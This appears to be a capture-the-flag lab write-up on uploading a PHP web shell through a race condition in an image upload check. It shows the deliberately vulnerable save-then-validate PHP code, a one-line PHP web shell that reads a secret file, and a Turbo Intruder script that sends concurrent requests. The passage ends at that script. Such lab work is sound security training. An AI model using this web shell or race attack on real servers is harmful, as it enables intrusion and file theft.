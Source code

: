 # Lab: Web shell upload via race condition

## Description

 This lab contains a vulnerable image upload function. Although it performs robust validation on any files that are uploaded, it is possible to bypass this validation entirely by exploiting a race condition in the way it processes them.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 

## Hint

 The vulnerable code that introduces this race condition is as follows: 
 
 ```php
 <?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}

function checkViruses($fileName) {
    // checking for viruses
    ...
}

function checkFileType($fileName) {
    $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
    if($imageFileType != "jpg" && $imageFileType != "png") {
        echo "Sorry, only JPG & PNG files are allowed\n";
        return false;
    } else {
        return true;
    }
}
?>
 ```
 
 # Step 1 Source Code review
 
 Since we have access to the source code for this lab, I should review first to get an idea of what is happening. I can see that my uploaded file is first moved to a temp directory, then checked for filetype and if it has "viruses". From viewing this it may be possible to access my file from within the temp directory, before the server finishes the validation checks and deletes it.
 
 # Step 2 Upload get_secret.php and execute before validation completes
 
 
 Contents of get_secret.php
 ```php
 <?php echo file_get_contents('/home/carlos/secret'); ?>
 ```
 But when uploading it I get this error:
 
 ![image](https://user-images.githubusercontent.com/83407557/171276226-ade47fed-7433-46a8-8789-6656e4b12e28.png)

# Step 3 Create a turbo intruder attack

I send that failed post request to burp intruder and check out the [documentation](https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py)

![image](https://user-images.githubusercontent.com/83407557/171276482-470dd853-4aeb-4250-b058-ee984c9ae213.png)

I take a look at the code example for race conditions

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    for i in range(30):
        engine.queue(target.req, target.baseInput, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)


```
